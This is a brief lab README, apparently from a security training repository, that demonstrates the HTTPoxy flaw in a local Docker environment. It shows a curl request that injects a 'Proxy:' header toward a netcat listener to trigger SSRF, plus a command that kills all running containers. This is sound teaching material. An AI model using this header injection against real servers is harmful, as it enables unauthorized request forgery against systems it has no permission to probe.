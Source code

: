 # HTTPOXY
## Injection of environment variable via "Proxy:" HTTP Header
### Can lead to SSRF

### Clear any existing containers
```
docker kill $(docker ps -q)
```

### Run the lab:
```
cd 1-httpoxy
docker-compose up -d
```

### On another terminal windows run:
```
nc -lvp 9999
curl -H "Proxy: [Your IP]:9999" http://[Your IP]:8080/index.php 
```

![image](https://user-images.githubusercontent.com/31791455/140382286-fdfccc75-cf13-488f-9ebd-aa8c83fe38d3.png)


### Explanation
HTTP Server will interpret Proxy: header value and try to connect to it. This can lead to SSRF.

### References and recommended reading
https://httpoxy.org/

### Credits:
https://github.com/vulhub/vulhub/tree/4d17ab2d4df39eefad5c498c5aa60b036a05494d/cgi/httpoxy

